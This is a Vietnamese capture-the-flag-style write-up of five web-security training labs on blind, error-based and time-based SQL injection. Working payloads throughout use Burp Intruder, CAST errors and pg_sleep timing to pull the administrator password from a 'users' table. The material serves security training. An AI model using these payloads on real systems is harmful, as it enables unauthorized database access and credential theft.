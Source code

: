![image](https://github.com/itravnn/kcsc_train/assets/127108265/36e5b9ef-9d38-46f9-8171-c5e15a302b47)

## 1. Lab: Blind SQL injection with conditional responses
Đề cho sẵn _The database contains a different table called **users**, with columns called **username** and **password**. You need to exploit the blind SQL injection vulnerability to find out the password of the **administrator** user_

để kiểm tra xem có tồn tại bảng **users** hay không 
```
' AND (SELECT 'a' FROM users LIMIT 1)='a
```

kết quả trả về có xuất hiện _welcome back_, chứng tỏ bảng có tồn tại

tương tự, kiểm tra xem trong bảng có người dùng tên _administrator_

```
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

tiếp theo , ta cần xác định độ dài của passwd với hàm **LENGTH()**

```
' AND (SELECT 'a' FROM users WHERE username='administrator' and length(password)>1)='a
```

kết quả trả về đúng tức là độ dài passwd lớn hơn 1. Như vậy ta tiếp tục thử thay số 1 bằng các giá trị khác sẽ xác định được độ dài passwd là 20

sau khi đó ta sẽ dùng hàm **SUBSTRING()** ĐỂ lấy 1 giá trị từ passwd và test nó với các giá trị khác nhau

```
' AND (SELECT substring(password,1,1) FROM users WHERE username='administrator')='a
```

ở đây, hàm substring() sẽ lấy 1 kí tự tại vị trí đầu tiên của passwd và so sánh với giá trị 'a'. Như vậy để kiểm thử tất cả các kí tự tại tất cả vị trí ta sẽ sử dụng **Burp Intruder**. Đánh dấu kí tự cần được thay đổi giá trị

![image](https://github.com/itravnn/kcsc_train/assets/127108265/5d57e656-5b7f-4e62-92a3-e840f6bdb9e3)

start attack sẽ thu được kết quả, sau đó chỉ cần sắp xếp lại vị trí thứ tự ta sẽ tìm ra được passwd

![image](https://github.com/itravnn/kcsc_train/assets/127108265/a036fb72-9d11-43ee-b7c5-01df2f8c67a1)

## 2. Lab: Blind SQL injection with conditional errors
_This lab uses an Oracle database_

![image](https://github.com/itravnn/kcsc_train/assets/127108265/003facb1-0248-452b-b59d-329295136269)

trước tiên là tìm độ dài của passwd

```
'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')||'a--
```

lúc này nếu biểu thức **case** đúng, tức là độ dài passwd lớn hơn 1 thì biểu thức sẽ trở thành 1/0, điều này gây ra lỗi trả về. 

như vậy ta dùng burp intruder `LENGTH(password)>$1$`  để tìm ra được độ dài passwd là 20

tương tự như lab trước, vẫn dùng hàm substring() để test các kí tự của passwd

```
'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE 'a' END FROM users WHERE username='administrator')||'a--
```

cũng dùng burp intruder để test các giá trị `SUBSTR(password,$1$,1)='$a$'` để ra được passwd

## 3. Lab: Visible error-based SQL injection

bài này ta sẽ dùng hàm **CASE()**, hàm này cho phép chuyển dữ liệu loại này sang dữ liệu loại khác. nếu kiểu dữ kiệu không tương thích sẽ trả về lỗi cụ thể.

trước tiên thử 
```
' AND CAST((SELECT 1) AS int)--
```
thông báo lỗi trả về

![image](https://github.com/itravnn/kcsc_train/assets/127108265/50bfc2dc-1d08-4aab-b57a-eaf71b7afba8)

lúc này báo lỗi về `AND` điều kiện phải là biểu thức boolean

thêm `=` 

```
' AND 1=CAST((SELECT 1) AS int)--
```

lúc này lỗi không còn nữa

tiếp tục, để tìm tên user có trong bảng 

```
' AND 1=CAST((SELECT username FROM users) AS int)--
```

![image](https://github.com/itravnn/kcsc_train/assets/127108265/0225c823-8b9e-44ef-8b5c-922e9bb386c4)

có vẻ như truy vấn bị mất ký tự do giới hạn ký tự, nên ta xóa giá trị của `TrackingId` để không bị mất ký tự.

![image](https://github.com/itravnn/kcsc_train/assets/127108265/9fd6ff38-be27-450b-bb76-62b8855ca372)

lỗi trả về lúc này là do trả về nhiều hàng, ta cần giới hạn số hàng trả về

```
' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
```

![image](https://github.com/itravnn/kcsc_train/assets/127108265/689149dd-a703-440a-a445-b4c89b2e8d99)

tìm được hàng đầu là của user 'administrator' 

như vậy cần tìm passwd nữa là xong

```
' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--
```

![image](https://github.com/itravnn/kcsc_train/assets/127108265/f3df6162-e59b-4d6d-b212-4d52e8afe67c)

## 4. Lab: Blind SQL injection with time delays

![image](https://github.com/itravnn/kcsc_train/assets/127108265/a45a2c6e-0f0f-4a17-969c-3bc910b1f068)

ở bài này ta chỉ cần thay đổi giá trị `TrackingId`, với kiểu cơ sở dữ liệu thích hợp

```
TrackingId=x'||pg_sleep(10)--
```
gửi yêu cầu và phản hồi trả lại mất 10s là thành công

## 5. Lab: Blind SQL injection with time delays and information retrieval

trước tiên thử xem bảng có tồn tại tên user 'administrator' hay không

```
'%3bSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

phản hồi trả lại sau 10s, chứng tỏ điều kiện đúng

tiếp theo, ta sẽ tìm độ dài của passwd với hàm length()

```
'%3bSELECT+CASE+WHEN+(username='administrator'+and+length(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

dựa vào thời gian trả lại phản hồi mà ta sẽ xác định được độ dài của passwd bằng cách thay đổi giá trị `length(password)>$1$`, như vậy xác định được độ dài là 20

dùng hàm substring() để tìm ra passwd

```
'%3bSELECT+CASE+WHEN+(username='administrator'+and+substring(password,1,1)='a')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

sử dụng burp intruder 2 giá trị `substring(password,$1$,1)='$a$'` , rồi start

để tìm được thời gian phản hồi nhận lại, ta nhấn như dưới,sau đó sẽ tìm được passwd

![image](https://github.com/itravnn/kcsc_train/assets/127108265/3235e8e6-dfcd-4cef-a52a-a9f1e80bda88)

done!!!!!


















